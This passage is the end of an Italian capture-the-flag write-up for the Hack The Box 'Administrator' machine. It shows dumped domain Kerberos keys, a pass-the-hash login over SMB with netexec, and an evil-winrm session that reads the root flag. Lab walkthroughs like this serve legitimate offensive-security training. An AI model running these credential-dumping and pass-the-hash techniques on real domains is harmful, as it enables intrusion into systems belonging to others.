administrator.htb\benjamin:des-cbc-md5:b6f84a864376a4ad                                                                                                                 
administrator.htb\emily:aes256-cts-hmac-sha1-96:53063129cd0e59d79b83025fbb4cf89b975a961f996c26cdedc8c6991e92b7c4                                                        
administrator.htb\emily:aes128-cts-hmac-sha1-96:fb2a594e5ff3a289fac7a27bbb328218                                                                                        
administrator.htb\emily:des-cbc-md5:804343fb6e0dbc51                                                                                                                    
administrator.htb\ethan:aes256-cts-hmac-sha1-96:e8577755add681a799a8f9fbcddecc4c3a3296329512bdae2454b6641bd3270f                                                        
administrator.htb\ethan:aes128-cts-hmac-sha1-96:e67d5744a884d8b137040d9ec3c6b49f                                                                                        
administrator.htb\ethan:des-cbc-md5:58387aef9d6754fb                                                                                                                    
administrator.htb\alexander:aes256-cts-hmac-sha1-96:b78d0aa466f36903311913f9caa7ef9cff55a2d9f450325b2fb390fbebdb50b6                                                    
administrator.htb\alexander:aes128-cts-hmac-sha1-96:ac291386e48626f32ecfb87871cdeade                                                                                    
administrator.htb\alexander:des-cbc-md5:49ba9dcb6d07d0bf                                                                                                                
administrator.htb\emma:aes256-cts-hmac-sha1-96:951a211a757b8ea8f566e5f3a7b42122727d014cb13777c7784a7d605a89ff82                                                         
administrator.htb\emma:aes128-cts-hmac-sha1-96:aa24ed627234fb9c520240ceef84cd5e                                                                                         
administrator.htb\emma:des-cbc-md5:3249fba89813ef5d                                                                                                                     
DC$:aes256-cts-hmac-sha1-96:98ef91c128122134296e67e713b233697cd313ae864b1f26ac1b8bc4ec1b4ccb
DC$:aes128-cts-hmac-sha1-96:7068a4761df2f6c760ad9018c8bd206d
DC$:des-cbc-md5:f483547c4325492a     
[*] Cleaning up...  


$ nxc smb administrator.htb -u 'administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) 
SMB         10.x.x.x  445    DC               [+] administrator.htb\administrator:3dc553ce4b9fd20bd016e098d2d2fd2e (Pwn3d!)

```

## Root.txt

Con le credenziali di `admistrator` si accede tramite **WinRM** per leggere il contenuto della **root.txt**.


```bash

$ evil-winrm -i 10.x.x.x -u 'administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'

```

```powershell

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
1a03bc734af190dafe682ebaa96a6949

```

---

